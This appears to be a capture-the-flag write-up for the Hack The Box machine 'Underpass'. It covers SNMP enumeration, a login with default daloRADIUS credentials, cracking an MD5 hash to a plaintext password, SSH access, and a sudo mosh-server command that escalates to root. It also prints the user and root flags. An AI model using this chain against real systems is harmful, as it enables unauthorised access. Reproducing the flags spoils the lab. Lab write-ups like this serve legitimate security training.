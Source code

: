 
[[HTB]] : [[Machines]]

**IP:** 10.10.11.48  
**Date:** 08/01/2025  

---

### **Enumeration**

#### **[[Nmap]] Scan Results**
- **Open Ports:**  
  - TCP 22: OpenSSH 8.9p1 (Ubuntu 3ubuntu0.10)  
  - TCP 80: Apache/2.4.52 (Outdated Version)  

- **UDP Scan on Port 161 (SNMP):**  
  - SNMPv1 server detected  
  - Net-SNMP SNMPv3 server with default community string (`public`)  

---

### **[[SNMP]] Enumeration**

Using the default SNMP community string `public`:
```bash
snmpwalk -v 1 -c public 10.10.11.48
```

#### **Results:**
- **System Information:**  
  - `iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"`

- **Admin Contact:**  
  - `iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"`

- **Hostname:**  
  - `iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"`

- **Location:**  
  - `iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"`

---

### **Web Server Discovery**
- **Apache Default Page:** Found at `http://underpass.htb`.  
- **Daloradius Login Page:** Found at `http://underpass.htb/daloradius/app/operators/login.php`.

#### **Default Credentials:**
Using the default Daloradius credentials:
```plaintext
Username: administrator  
Password: radius  
```
Access granted.

---

### **Exploitation**

#### **Discovered User: svcMosh**
From Daloradius, identified the existence of the `svcMosh` user and retrieved their hashed password:  
```plaintext
412dd4759978acfcc81deab01b382403
```

#### **Password Cracking:**
Using `hashcat`, the password was cracked:
```plaintext
underwaterfriends
```

#### **Gaining SSH Access:**
SSH into the server as `svcMosh`:
```bash
ssh svcMosh@underpass.htb
```

#### **User Flag:**
```plaintext
a7e8df8da8d1980a29aa88306de320f5
```

---

### **Privilege Escalation**

#### **Sudo Permissions:**
The `svcMosh` user has permission to run `/usr/bin/mosh-server` as `sudo`.

#### **Exploitation Command:**
Privilege escalation can be achieved using:
```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```

#### **Root Flag:**
After escalating to root:
```bash
root@underpass:~# cat root.txt
cc2d0fa21831180a33da0fdd267d0a02
```

---

### **Summary:**
1. **Enumeration:** Discovered open ports (22, 80, 161), outdated software, and misconfigured SNMP.  
2. **Exploitation:** Used Daloradius default credentials to obtain `svcMosh`'s MD5 password hash. Cracked the hash and gained SSH access.  
3. **Privilege Escalation:** Leveraged sudo permissions on `/usr/bin/mosh-server` to escalate to root.  

---











